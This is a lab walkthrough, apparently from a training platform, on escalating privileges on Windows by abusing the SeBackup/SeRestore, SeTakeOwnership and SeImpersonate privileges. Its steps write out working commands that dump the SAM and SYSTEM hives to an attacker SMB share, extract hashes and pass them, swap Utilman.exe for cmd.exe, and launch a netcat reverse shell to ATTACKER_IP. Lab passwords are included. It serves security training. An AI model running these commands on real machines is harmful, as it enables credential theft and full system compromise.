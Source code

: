 # Windows Privilege Escalation: Abusing Dangerous Privileges

## Windows Privileges

Privileges are rights that an account has to perform specific system-related tasks. These tasks can range from shutting down the machine to bypassing DACL-based access controls.

Each user has a set of assigned privileges that can be checked with the following command:

```bash
whoami /priv
```

A complete list of available privileges on Windows systems is available [here](https://learn.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment). From an attacker's standpoint, only privileges that allow escalation are of interest. A comprehensive list of exploitable privileges can be found on the [Priv2Admin GitHub project](https://github.com/gtworek/Priv2Admin).

This guide showcases how to abuse some of the most common privileges.

---

## SeBackup / SeRestore

The `SeBackup` and `SeRestore` privileges allow users to read and write to any file in the system, ignoring any DACL in place. These privileges are typically used for system backups but can be exploited for privilege escalation.

### Steps to Exploit:

1. **Log in to the target machine**:
    - **User**: `THMBackup`
    - **Password**: `CopyMaster555`

    This account is part of the "Backup Operators" group, which has the `SeBackup` and `SeRestore` privileges.

2. **Open an elevated command prompt**:
    - Right-click and select "Run as administrator."
    - Input the password again to get an elevated console.

3. **Check privileges**:
    ```bash
    whoami /priv
    ```

4. **Backup the SAM and SYSTEM registry hives**:
    ```bash
    reg save hklm\system C:\Users\THMBackup\system.hive
    reg save hklm\sam C:\Users\THMBackup\sam.hive
    ```

5. **Transfer the files to the attacker machine**:
    - Start an SMB server on the attacker machine:
      ```bash
      mkdir share
      python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
      ```
    - Copy the files from the target machine:
      ```bash
      copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
      copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
      ```

6. **Extract password hashes**:
    ```bash
    python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
    ```

7. **Perform a Pass-the-Hash attack**:
    ```bash
    python3.9 /opt/impacket/examples/psexec.py -hashes <LMHASH>:<NTHASH> administrator@MACHINE_IP
    ```

---

## SeTakeOwnership

The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system, including files and registry keys.

### Steps to Exploit:

1. **Log in to the target machine**:
    - **User**: `THMTakeOwnership`
    - **Password**: `TheWorldIsMine2022`

2. **Open an elevated command prompt**:
    - Right-click and select "Run as administrator."

3. **Check privileges**:
    ```bash
    whoami /priv
    ```

4. **Take ownership of `utilman.exe`**:
    ```bash
    takeown /f C:\Windows\System32\Utilman.exe
    ```

5. **Grant full permissions**:
    ```bash
    icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
    ```

6. **Replace `utilman.exe` with `cmd.exe`**:
    ```bash
    copy cmd.exe C:\Windows\System32\Utilman.exe
    ```

7. **Trigger the exploit**:
    - Lock the screen and click the "Ease of Access" button to open a SYSTEM-level command prompt.

---

## SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf. They are commonly found in accounts like `LOCAL SERVICE` and `NETWORK SERVICE`.

### Steps to Exploit:

1. **Check privileges**:
    - Use a web shell or compromised account to confirm the privileges.

2. **Upload the RogueWinRM exploit**:
    - The exploit is pre-uploaded at `C:\tools\RogueWinRM\RogueWinRM.exe`.

3. **Start a reverse shell listener**:
    ```bash
    nc -lvp 4442
    ```

4. **Trigger the exploit**:
    ```bash
    C:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
    ```

5. **Gain SYSTEM privileges**:
    - Wait for the reverse shell to connect:
      ```bash
      whoami
      nt authority\system
      ```